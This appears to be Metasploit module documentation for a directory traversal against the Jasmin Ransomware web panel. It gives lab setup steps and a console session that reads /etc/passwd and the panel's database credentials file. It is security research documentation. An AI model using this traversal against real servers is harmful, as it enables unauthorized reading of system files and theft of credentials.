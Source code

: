 ## Vulnerable Application

The Jasmin Ransomware web server contains an unauthenticated directory traversal vulnerability
within the download functionality. As of April 15, 2024 this was still unpatched, so all
versions are vulnerable. The last patch was in 2021, so it will likely not ever be patched.

### Install

create a LAMP server (using php 8.2 worked for me, 7.2 did not).
Run the following commands:

```
git clone https://github.com/codesiddhant/Jasmin-Ransomware.git
cd Jasmin-Ransomware
sudo cp -r Web\ Panel/* /var/www/html/
sudo chown www-data:www-data /var/www/html/*
sudo mysql -p
```

Execute the following SQL commands:

```
CREATE DATABASE jasmin_db;
CREATE USER 'jasminadmin'@'localhost' IDENTIFIED BY '123456';
GRANT ALL PRIVILEGES ON jasmin_db.* TO 'jasminadmin'@'localhost';
Exit
```

Now setup the database:
`sudo mysql -u jasminadmin -p123456 jasmin_db < Web\ Panel/database/jasmin_db.sql`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jasmin_ransomware_dir_traversal`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get the content of a file if it exists.

## Options

### FILE

File to retrieve. `etc/passwd` is the default, but
`var/www/html/database/db_conection.php` contains the
database credentials.

## Scenarios

### Jasmin installed on Ubuntu 22.04

```
msf6 > use auxiliary/gather/jasmin_ransomware_dir_traversal
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) > set verbose true
verbose => true
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) > rexploit
[*] Reloading module...

[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
arangodb:x:998:999:ArangoDB Application User:/usr/share/arangodb3:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
rtkit:x:118:124:RealtimeKit,,,:/proc:/usr/sbin/nologin
kernoops:x:119:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
cups-pk-helper:x:120:125:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
systemd-oom:x:121:128:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
whoopsie:x:122:129::/nonexistent:/bin/false
geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
avahi-autoipd:x:124:131:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:125:132:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
nm-openvpn:x:126:133:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:127:135::/var/lib/saned:/usr/sbin/nologin
colord:x:129:136:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
sssd:x:130:137:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
pulse:x:131:138:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:132:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
gnome-initial-setup:x:133:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:134:140:Gnome Display Manager:/var/lib/gdm3:/bin/false
mysql:x:136:143:MySQL Server,,,:/nonexistent:/bin/false

[+] Saved file to: /root/.msf4/loot/20240415125844_default_127.0.0.1_jasmin.webpanel._670418.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) > set FILE var/www/html/data
base/db_conection.php
FILE => var/www/html/database/db_conection.php
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) > rexploit
[*] Reloading module...

[+] <?php
$dbcon=mysqli_connect("localhost","jasminadmin","123456");

mysqli_select_db($dbcon,"jasmin_db");

?>

[+] Saved file to: /root/.msf4/loot/20240415125905_default_127.0.0.1_jasmin.webpanel._177654.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/jasmin_ransomware_dir_traversal) >
```

